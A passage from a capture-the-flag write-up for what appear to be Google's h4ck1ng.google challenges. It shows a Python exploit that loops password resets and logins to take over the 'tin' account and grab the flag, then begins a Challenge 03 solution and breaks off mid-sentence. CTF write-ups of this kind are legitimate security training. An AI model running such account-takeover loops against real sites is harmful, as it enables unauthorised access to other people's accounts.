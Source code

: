 ```python
s = requests.Session()
# Reset the password for tin, until we can log in
while True:
    r = s.post(LOGIN_URL, data={"username": USERNAME,
                                "password": pword})
    if r.status_code == 200 and "Incorrect credentials" not in r.text:
        # Bingo
        print()
        break
    print(".", end='')
    sys.stdout.flush()
    r = s.post(P_RES_URL, data={"username": USERNAME})
    if r.status_code != 200 or "Password for tin is resetted" not in r.text:
        print(f"Something went wrong resetting the password for '{USERNAME}'")

r = s.get(HOME_URL)
if r.status_code == 200:
    flag = re.search(r'(https://h4ck1ng\.google/solve/[0-9a-z_-]*)',
                     r.text)
    if flag is not None:
        print(flag.group(1))
        sys.exit(0)

print("Something went wrong :(")
sys.exit(1)
```

And we can get our flag:

```shell
❯ ./exploit.py
using password '**REDACTED**' (hash: b'zNjBWTgIHKVvhWRBUSKrADRwqDM=')
.........
https://h4ck1ng.google/solve/**REDACTED**
```

### CHALLENGE 03

> The VRP platform is proudly open-source, and encourages submissions. Let's try to change something and see if we can find some bugs.
>
> Hint: Look around the site to find out how to contribute.

There is no link for this challenge.

#### Solution

It took me quite a while to realize what I should do for this challenge. Looking back at the source code for the bug bounty website, I noticed a NodeJS route for `/contributing` page.

Unfortunately, we cannot access that page on the online instance, as we can't log in as an admin (i.e., `don`), but we can browse our local instance!

In the `contributing` view, we found the following message:
